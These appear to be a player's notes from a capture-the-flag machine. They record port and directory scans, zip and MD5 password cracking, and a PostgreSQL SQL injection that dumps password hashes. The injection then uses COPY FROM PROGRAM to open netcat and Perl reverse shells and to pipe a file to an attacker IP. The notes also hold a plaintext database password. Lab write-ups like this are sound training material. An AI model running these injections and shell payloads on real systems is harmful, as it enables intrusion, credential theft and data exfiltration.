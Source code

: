 >> sudo nmap -p- --min-rate=1000 -sS -A -T4 10.10.10.46
	21/tcp open  ftp     vsftpd 3.0.3
	22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
	|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
	|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
	80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.41 (Ubuntu)
	|_http-title: MegaCorp Login

>> ssh: robert is not here, cannot ssh with his creds
>> web: index is a login page
	>> python dirsearch/dirsearch.py -u http://10.10.10.46 -E
	[13:43:32] 403 -  276B  - /.htaccess-local                            
	[13:43:32] 403 -  276B  - /.htaccess-marco
	[13:43:32] 403 -  276B  - /.htaccess-dev
	[13:43:32] 403 -  276B  - /.htaccess.bak1
	[13:43:32] 403 -  276B  - /.htaccess.old
	[13:43:32] 403 -  276B  - /.htaccess.save
	[13:43:32] 403 -  276B  - /.htaccessOLD2
	[13:43:32] 403 -  276B  - /.htaccessOLD
	[13:43:32] 403 -  276B  - /.htaccess.txt
	[13:43:32] 403 -  276B  - /.htaccess.sample
	[13:43:32] 403 -  276B  - /.htaccess.orig
	[13:43:32] 403 -  276B  - /.htaccessBAK
	[13:43:32] 403 -  276B  - /.htpasswd-old
	[13:43:33] 403 -  276B  - /.httr-oauth
	[13:43:38] 403 -  276B  - /.php                                       
	[13:44:32] 302 -  931B  - /dashboard.php  ->  index.php                        
	[13:44:51] 200 -    2KB - /index.php                          
	[13:44:52] 200 -    2KB - /index.php/login/
	[13:44:57] 200 -    1KB - /license.txt                                                  
	[13:45:28] 403 -  276B  - /server-status                                               
	[13:45:28] 403 -  276B  - /server-status/

	>> no passwords accepted, should bruteforce session id?

>> ftp: may be the same as on previous machine
It is indeed
>> there is a backup file. With a password.
>> fcrackzip -u -v -D -p '/usr/share/wordlists/rockyou.txt' backup.zip
	found file 'index.php', (size cp/uc   1201/  2594, flags 9, chk 5722)
	found file 'style.css', (size cp/uc    986/  3274, flags 9, chk 989a)


	PASSWORD FOUND!!!!: pw == 741852963
>> From index.php
	if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")

Time to dehash. No solt required.
>> hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt
	* Runtime...: 2 secs

	2cb42f8734ea607eefed3b70af13bbd3:qwerty789
	
	Need to use better passwords..

>> seems like nothing interestion in there... we are not the super admin yet. More like a content admin.

However, the serach field is interactive after some <$><\><"><?><'> we find out that we can do SQL injection in there!
The original query is
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^

Let's make a new queries:

1) Select * from cars where name ilike '%
2) aaa' union all select null as int, version(), null as text, null as text, null as text union all select * from cars where name ilike 'aaa
3) %';

>> aaa' union all select null as int, usename, passwd, null as text, null as text from pg_shadow union all select * from cars where name ilike 'aaa
>> postgres 	md52d58e0637ec1e94cdfba3d1c26b67d01

aaa'; drop table if exists cmd_exec_541; create table cmd_exec_541(cmd_output text); copy cmd_exec_541 from program 'nc -e /bin/sh 10.10.14.5 4444 &'; select null as int, cmd_output, null as text, null as text, null as text from cmd_exec_541 union all select * from cars where name ilike 'aaa

DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec_541(cmd_output text);
COPY cmd_exec FROM PROGRAM 'perl -MIO -e "$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.5:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;"';
SELECT * FROM cmd_exec;

aaa'; drop table if exists cmd_exec_541; create table cmd_exec_541(cmd_output text); copy cmd_exec_541 from program 'cat /var/www/html/dashboard.php | nc 10.10.14.5 80'; select * from cars where name ilike 'aaa


as we cannot get rid of 1 and 3, we need to try to make their results to be empty
Impossibru to establish the reverse shell, but was able to send individual commands to my shell

$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

The same password is ok for ssh apparently.

>> postgres@vaccine:~$ cat user.txt 
139d3e5c3db18073d250ce0dccc43997



